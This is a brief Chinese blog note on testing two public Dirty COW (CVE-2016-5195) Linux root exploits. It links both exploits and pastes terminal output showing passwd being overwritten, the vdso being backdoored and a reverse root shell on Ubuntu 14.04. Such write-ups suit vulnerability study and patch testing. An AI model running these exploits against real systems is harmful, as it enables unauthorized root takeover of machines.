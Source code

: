 ```yaml
---
title: CVE-2016-5195 Dirtycow 
date: 2016-10-26 09:35:13
tags: 
 - cve
categories: notes
---
```


# 概述
最近出来的dirtycow，影响版本:Linux kernel >= 2.6.22（2007年发行，到今年10月18日才修复）,用网上的EXP试了一下，记录一下过程
<!--more-->
# EXP

### https://www.exploit-db.com/exploits/40616/

这个EXP是exploitdb上的，但是容易造成系统崩溃，成功后会返回一个root权限的shell

```
okami@ubuntu14:~$ ./dirtycow
DirtyCow root privilege escalation
Backing up /usr/bin/passwd.. to /tmp/bak
Size of binary: 47032
Racing, this may take a while..
thread stopped
thread stopped
/usr/bin/passwd is overwritten
Popping root shell.
Don't forget to restore /tmp/bak
root@ubuntu14:/home/okami# id
uid=0(root) gid=1000(okami) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare),1000(okami)
root@ubuntu14:/home/okami# whoami
root
root@ubuntu14:/home/okami#
```

### https://github.com/scumjr/dirtycow-vdso
这个EXP不会出现系统崩溃，但是作者本人说不适用于所有linux版本，不过试验了一下，ubuntu14 16 centOS7都可以
```
okami@ubuntu14:~$ ./0xdeadbeef
[*] exploit: patch 1/2
[*] vdso successfully backdoored
[*] exploit: patch 2/2
[*] vdso successfully backdoored
[*] waiting for reverse connect shell...
[*] enjoy!
[*] restore: patch 2/2
[*] vdso successfully restored
[*] restore: patch 1/2
[*] vdso successfully restored
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.5 LTS
Release:	14.04
Codename:	trusty
```
注意这里有一步是waiting for reverse connect shell...，需要一点时间，成功后有root权限的shell



